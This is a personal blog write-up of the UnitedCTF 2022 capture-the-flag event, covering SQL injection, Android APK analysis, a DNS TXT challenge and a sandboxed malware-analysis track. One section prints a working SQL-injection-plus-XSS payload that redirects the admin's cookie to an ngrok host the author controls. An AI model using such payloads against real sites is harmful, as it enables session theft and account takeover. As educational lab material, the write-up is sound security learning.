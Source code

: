 ```yaml
---
layout: post
title: "United CTF 2022"
date: 2022-10-16
image: /will-hack-for-coffee/assets/images/unitedctf2022/pastagen.png
---
```


Last year I was supposed to do a post on UnitedCTF web challenge but I ran out of gas. Too bad there was tons of cool stuff: a series of file upload challenges, a website featuring a cute dog, a pentest on a fake government website and hacking techniques based on the Vaxicode mobile app. In this post I'll show you how I combined SQL injection and XSS, an introductory mobile app pentest and one thing I learned about DNS. I will also talks about the track made by Desjardins, which was my favorite this year. As always the challenge are available on [Github](https://github.com/UnitedCTF/UnitedCTF-2022) so you can try them yourselves

## Wisdom 1: Know your 'Quotes'

![Wisdom website](/will-hack-for-coffee/assets/images/unitedctf2022/wisdom-website.png)

So this is a simple website where you can search for quotes. Using quotes didn't break the app but this payload did: 

![Error](/will-hack-for-coffee/assets/images/unitedctf2022/error.png)

I could then found that two columns were expected:

![First injection](/will-hack-for-coffee/assets/images/unitedctf2022/first-injection.png)

Then I had to guess what type of database it was using by trials and errors, [thank you for payload all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md):
![Finding database type](/will-hack-for-coffee/assets/images/unitedctf2022/finding-database-type.png)

Then I could extract the (simple) schema. Using an expression that evaluated to false at the left to simplify display:
![Finding database type](/will-hack-for-coffee/assets/images/unitedctf2022/extracting-schema.png)

Finally I got my flag:

![Finding database type](/will-hack-for-coffee/assets/images/unitedctf2022/wisdom-first-flag.png)

## Wisdom 2: XSS or SQL injection? Why not both?

There is a link called Found a bug, let's take a look:

![Bug submit page](/will-hack-for-coffee/assets/images/unitedctf2022/bug-submit.png)

It looks like if you put an url there, the admin will visit it. If there was XSS on his site we could steal his cookie, impersonate him and try to escalate our privilege. Sadly there is only SQL injection... hmmm?

![Reflected XSS](/will-hack-for-coffee/assets/images/unitedctf2022/reflected-xss.png)

So I managed to inject an XSS in the page by using this payload: 

``
' union select '<script>alert("Reflected XSS")</script>',null -- 
``

So now we need to redirect his cookie to a server we control. During the CTF, the website was on the internet and not hosted on my local server using Docker. For those well versed in networking (not me) it could be done using port forwarding but I used a tool call ngrok that simplified my network setting. It's a tool that is worth learning! Just register for a free account and [get started](https://ngrok.com/), it's only two steps to install and configure. After this launch ngrok on your machine forwarding to port 80 following the Getting started section. Then browse to the Endpoint page.

![ngrok](/will-hack-for-coffee/assets/images/unitedctf2022/ngrok.png)

This is the url to access your local server, I used a simple python server listening on port 80.

**Be careful with that tough because you are opening a door into your home network for all those malicious hackers and bots roaming the internet. So close Ngrok after you are finished and don't serve sensitive files with your python server! xD**

So I send this link for the admin to inspect (code formating the url looks kinda bad but it prevent accidental XSS in my website!):

``
http://wisdom.ctf.unitedctf.ca/?q=' union select '<script>document.location="https://xxx-xxx-xxx-xxx-xxx.ngrok.io?c=".concat(document.cookie);</script>',1 -- 
``

Looking at my python server:

![Capturing cookie](/will-hack-for-coffee/assets/images/unitedctf2022/capturing-cookie.png)

The first part of the flag is a reference to HTTP-Only which is a [setting for your cookie](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies#restrict_access_to_cookies) that it should only be accessible by HTTP (excluding javascript). That setting kind of confused me at first as it doesn't mean unencrypted transmission but refer to the HTTP protocol. The cookie settings for transmitting cookies only via HTTPS is called Secure. The second part of the flag refer to [Content-Security-Policy header](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy) that indicate which resources are allowed to load.

## Mobile app 1: Debugging

Some students from [ApplETS](https://clubapplets.ca/) made a small mobile app track. I didn't knew anything about mobile app reversing but I was eager to try it.

![Mobile app 1](/will-hack-for-coffee/assets/images/unitedctf2022/mobile1.png)

First challenge is about SQL injection, no problemo! Oh I only have an APK? I wanted to try it for a long time so I installed [Android Studio](https://developer.android.com/studio). I could then open the APK and run it in a simulated device. 

![Debugging APK](/will-hack-for-coffee/assets/images/unitedctf2022/debugging-apk.png)

I know it's SQLlite and I'm all warmed up so quickly I had the first challenge done:

![First mobile flag](/will-hack-for-coffee/assets/images/unitedctf2022/first-mobile-flag.png)

## Mobile app 2: Grab that database

![Mobile app 2](/will-hack-for-coffee/assets/images/unitedctf2022/mobile2.png)

So I had to browse the database but where is it? The database seems to be created by the APK, possibly by code. By running the app in debug you can browse the device file. You might not be allowed access on a non rooted device but I am on a virtual device that I fully control. Googling the location of the database, I found that:

![Device explorer](/will-hack-for-coffee/assets/images/unitedctf2022/device-explorer.png)

Copying this database on my machine, I could then browse it using sqllitedb in Kali and found the second flag.

![Browsing the database](/will-hack-for-coffee/assets/images/unitedctf2022/second-mobile-flag.png)

## Mobile app 3: Decompilation

![Mobile app 3](/will-hack-for-coffee/assets/images/unitedctf2022/mobile3.png)

Why use a tool when you can Android Studio? Here is the third flag:

![Third mobile flag](/will-hack-for-coffee/assets/images/unitedctf2022/third-mobile-flag.png)

Really glad I took some time to look at Android Studio. I might dabble with it further eventually. Maybe an app to locate and rate the nearest mobile toilet when stuck in traffic due to roadworks?

![Mobile toilet](/will-hack-for-coffee/assets/images/unitedctf2022/mobile-toilet.png)

## Sus domain

The next challenge I wanted to show you, I only found after the CTF by looking at the solution:

![Suspicious domain](/will-hack-for-coffee/assets/images/unitedctf2022/sus-domain.png)

I knew it was related to DNS and I knew TXT was a type of record. But I investigated the domain (I didn't realized the DNS entry for the subdomain would be different) instead of the subdomain. 

![Looking at DNS txt record](/will-hack-for-coffee/assets/images/unitedctf2022/dig-subdomain.png)

Here it was, encoded in base64: FLAG-4eef1b53ba09dfd7fdb7037b488839770.

The text record can contain arbitrary text and this string is probably fake but it's a legit way for company, like Google, to verify you own this domain. It's also used to store DMARC, SPF and DKIM information for email authentication, so I learned that.

## Desjardins: Dynamic Malware analysis

It's the second time I completed the Desjardins track and it was even better then the last time. The idea of the challenge is to run a malware in a controlled environment and ultimately find and impersonate a [C2](https://www.varonis.com/blog/what-is-c2) server. There is already two [good](https://ch0ufleur.dev/desjardins-analyse-dynamique-de-logiciel-malveillant/) [writeup](https://github.com/PeLouZe/UnitedCTF22-Desjardins) on it but I used slightly different tooling so I toy with the idea of writing a post about it too. I used a [free image of windows 11](https://developer.microsoft.com/en-us/windows/downloads/virtual-machines/) and I installed a distribution from Mandiant specialized in reverse engineering and malware analysis called [Flare VM](https://www.mandiant.com/resources/blog/flare-vm-update).

Basically the malware interrogate a well known website before trying to contact his C2 server and he is using https so you need to use a proxy and configure the TLS certificate beforehand. I used [Procmon](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon), Wireshark and Burp. It could have been solved using only those but I discovered and configured the tool [mitmproxy](https://mitmproxy.org/) and I also used another tool called [fakenet](https://github.com/mandiant/flare-fakenet-ng) to impersonate the C2 server. So I now have a really nice VM to play with for those pesky Windows CTF challenge.

## Conclusion

UnitedCTF is my favorite because there is a lot of challenges designed to teach the basic of hacking to beginners by pointing to ressources and tools. There is also original content that I didn't see in any other CTF like the Shellcoding track or ReDoS last year. Thanks to the students who took the time to make this great event and thanks Desjardins for that interesting challenge!


